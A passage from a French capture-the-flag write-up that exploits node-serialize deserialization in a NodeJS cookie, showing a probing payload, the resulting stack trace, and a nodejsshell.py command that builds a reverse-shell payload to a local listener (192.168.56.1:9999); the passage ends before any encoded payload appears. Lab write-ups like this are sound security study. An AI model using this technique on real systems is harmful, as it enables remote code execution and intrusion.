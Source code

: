 Ce type de technologie assez récente a généralement à faire face à des vulnérabilités de désérialisation. Un outil comme [ysoserial: A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization](https://github.com/frohoff/ysoserial) est souvent utilisé dans les CTFs pour les vulnérabilités de ce type. On va voir si le service NodeJS est touché par une faille de cette famille.

Ne connaissant pas trop comment tout cela fonctionne, je regarde d'abord si placer une opération Javascript dans le cookie permet d'avoir une interprétation quelconque :

```json
{"username":"ab"+"cd"}
```

Je n'obtiens pas un message *Welcome, abcd* mais une erreur de désérialisation :

```
SyntaxError: Unexpected token + in JSON at position 16
    at JSON.parse (<anonymous>)
    at Object.exports.unserialize (/home/web/shuriken-node/node_modules/node-serialize/lib/serialize.js:62:16)
    at /home/web/shuriken-node/server.js:16:24
    at Layer.handle [as handle_request] (/home/web/shuriken-node/node_modules/express/lib/router/layer.js:95:5)
    at next (/home/web/shuriken-node/node_modules/express/lib/router/route.js:137:13)
    at Route.dispatch (/home/web/shuriken-node/node_modules/express/lib/router/route.js:112:3)
    at Layer.handle [as handle_request] (/home/web/shuriken-node/node_modules/express/lib/router/layer.js:95:5)
    at /home/web/shuriken-node/node_modules/express/lib/router/index.js:281:22
    at Function.process_params (/home/web/shuriken-node/node_modules/express/lib/router/index.js:335:12)
    at next (/home/web/shuriken-node/node_modules/express/lib/router/index.js:275:10)
```

Je suis donc sur la bonne voie. Une recherche m'a mené sur cet article : [Node.js Deserialization Attack – Detailed Tutorial 2018 - Yeah Hub](https://www.yeahhub.com/nodejs-deserialization-attack-detailed-tutorial-2018/).

Il convient d'abord de générer un payload javascript qui déclenchera un reverse-shell. Le script [nodejsshell.py](https://github.com/ajinabraham/Node.Js-Security-Course/blob/master/nodejsshell.py) se base sur un template pour cela.

```bash
$ python2 nodejsshell.py 192.168.56.1 9999
[+] LHOST = 192.168.56.1
[+] LPORT = 9999
[+] Encoding
```